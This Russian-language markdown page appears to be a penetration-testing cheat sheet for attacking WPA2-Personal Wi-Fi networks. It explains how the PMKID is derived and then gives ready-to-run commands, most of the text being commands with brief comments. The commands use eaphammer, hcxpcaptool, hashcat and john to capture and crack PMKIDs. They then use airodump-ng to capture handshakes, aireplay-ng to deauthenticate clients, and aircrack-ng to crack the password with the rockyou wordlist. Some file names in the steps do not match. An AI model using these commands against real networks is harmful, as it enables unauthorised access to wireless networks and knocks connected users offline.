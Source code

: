 ## Атаки на WPA2-Personal
**PMKID**
Тип атаки, которая не только опирается на один единственный пакет, но и не требует подключения клиентов к нашей целевой точке доступа или, если клиенты подключены, не требует отправки им пакетов деаутентификации, нет никакого взаимодействия между атакующим и клиентскими станциями, а только между атакующим и точкой доступа!
Многие современные маршрутизаторы добавляют необязательное поле в конце первого пакета EAPOL, отправленного самой точкой доступа, когда кто-то подключается, так называемую Robust Security Network, которая включает в себя PMKID.
```
PMKID = HMAC-SHA1-128(PMK, "PMK Name" | MAC_AP | MAC_STA)
```
Поскольку строка «PMK Name» является константой, мы знаем, что и BSSID точки доступа, и станции, а PMK - это тот же самый идентификатор, полученный в результате полного 4-стороннего рукопожатия, это все, что нужно hashcat для взлома PSK и восстановления пароля.
Команды для проведения атаки:

```
./eaphammer --pmkid --interface wlan0 --channel 11 --bssid 70:4C:A5:F8:9A:C1
```
Захваченные PMKID будут показаны в консоли, а также сохранены в файле /tmp/attack.pcap.
Теперь необходимо конвертировать дамп трафика в удобный формат для hashcat и взломать его:
```
hcxtools/hcxpcaptool -z hashes.txt /tmp/attack.pcapng
hashcat -m 16800 --force hashes.txt /usr/share/wordlists/rockyou.txt
john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
**Перехват рукопожатий**
Перехват рукопожатия
Одним из способов атаки на сети WPA/WPA2 является перехват рукопожатия и попытка взломать используемый пароль в автономном режиме. Для этого вам необходимо найти BSSID и канал сети жертвы, а также клиента, подключенного к этой сети.
Получив эту информацию, вы должны начать прослушивать все коммутации этого BSSID в этом канале, потому что есть надежда, что рукопожатие будет отправлено туда:

Перед атакой на клиента, необходимо начать сбор трафика с целевой точки.
В одном терминале или экране tmux:
```
airodump-ng wlan0 -c 6 --bssid 64:20:9F:15:4F:D7 -w /tmp/psk --output-format pcap # airodump-ng при успешном перехвате выведет на экран сообщение типа WPA handshake:64:20:9F:15:4F:D7
```
Теперь проведем атаку на клиента.
В другом окне терминала пишем команду:
```
aireplay-ng -0 1 -a 64:20:9F:15:4F:D7 wlan0
```

Проверим есть ли валидные рукопожатия в файле с дампом:
```
aircrack-ng psk-01.cap
```
Ломаем рукопожатия при помощи aircrack-ng
```
aircrack-ng -w /usr/share/wordlists/rockyou.txt -b 64:20:9F:15:4F:D7 /tmp/psk*.cap
```

